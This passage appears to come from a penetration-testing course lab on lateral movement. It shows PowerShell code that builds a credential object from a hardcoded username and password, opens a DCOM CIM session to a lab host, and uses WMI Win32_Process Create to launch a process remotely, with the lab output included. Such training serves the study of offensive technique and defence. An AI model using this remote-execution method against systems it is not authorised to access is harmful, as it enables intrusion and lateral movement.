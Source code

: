 To do that, we will first store the username and password in variables. Then, we will secure the password via the **ConvertTo-SecureString** cmdlet. Finally, we'll create a new PSCredential object with the username variable and **secureString** object.

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

> Listing 2 - Creating the PSCredential object in PowerShell

Now that we have our PSCredential object, we need to create a _Common Information Model_ (CIM) via the [_New-CimSession_](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2) cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the **New-CimSessionOption** cmdlet on the first line. On the second line, we'll create the new session, **New-Cimsession** against our target IP, using **\-ComputerName** and supply the PSCredential object (**\-Credential $credential**) along with the session options (**\-SessionOption $Options**). Lastly, we'll define 'calc' as the payload to be executed by WMI.

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

> Listing 3 - Creating a new CimSession

As a final step, we need to tie together all the arguments we configured previously by issuing the _Invoke-CimMethod_ cmdlet and supplying **Win32\_Process** to the _ClassName_ and **Create** to the _MethodName_. To send the argument, we wrap them in **@{CommandLine =$Command}**.

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

> Listing 4 - Invoking the WMI session through PowerShell

To simulate the technique, we can connect to CLIENT74 as _jeff_ and insert the above code in a PowerShell prompt. (Not all the code is shown below.)

```
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

> Listing 5 - Executing the WMI PowerShell payload.
